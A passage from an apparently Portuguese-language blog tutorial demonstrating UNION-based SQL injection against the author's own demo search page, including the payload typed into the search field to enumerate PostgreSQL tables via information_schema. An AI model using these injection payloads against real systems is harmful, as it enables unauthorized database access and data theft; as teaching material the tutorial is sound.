 (3 | Hammer Drills | 22.3)

Ok, ok. Podem não ser três colunas exatamente, mas vamos tentar com 3 por enquanto (lembre-se que projetei o sistema).

Agora vamos utilizar o comando `UNION` do `SQL`. Isso nos possibilita juntar dois resultados em um único resultado ou `Dataset`.

![union-sql-1](https://res-3.cloudinary.com/ht54oxr6q/image/upload/q_auto/v1/ghost-blog-images/union-sql-1.png)

Vamos usar isso para retornar os dados de produtos **e** algo que nos interessa.

```sql
SELECT ?, ?, ? FROM ? WHERE ? LIKE '%mmer%'
```

Vamos modificar nossa *query* para utilizar o `UNION` e trazer os valores **1, 2, 3**.

```sql
SELECT ?, ?, ? FROM ? WHERE ? LIKE '%mmer%' UNION SELECT '1', '2', '3';--
```

![7](https://res-2.cloudinary.com/ht54oxr6q/image/upload/q_auto/v1/ghost-blog-images/7.png)

Isso produziu o retorno que já conhecemos mais uma linha contendo os valores "1", "2" e "3", também validando nossa hipótese de três colunas.

Vamos partir para as **tabelas** agora.

```sql
SELECT ?, ?, ? FROM ? WHERE ? LIKE '%mmer%' UNION SELECT '1', '2', '3';--
```
*Nosso comando atual.*

O comando abaixo é capaz de retornar as tabelas do `Schema` do banco de dados *PostgreSql*.

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema='public'
```

![sql-schema](https://res-3.cloudinary.com/ht54oxr6q/image/upload/q_auto/v1/ghost-blog-images/sql-schema.png)

*Resultado esperado. Tabelas do sistema*

Vamos introduzir a nossa `Query`.

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema='public'
```
Coloque no campo de busca `mmer%'UNION  SELECT "table_name", "table_schema", "table_catalog" FROM information_schema.tables WHERE table_schema='public'--`

Formando a `QUERY`:

```sql
select ?, ?, ? from ?
UNION 
SELECT "table_name", "table_catalog", "table_schema" FROM information_schema.tables WHERE table_schema='public'
```
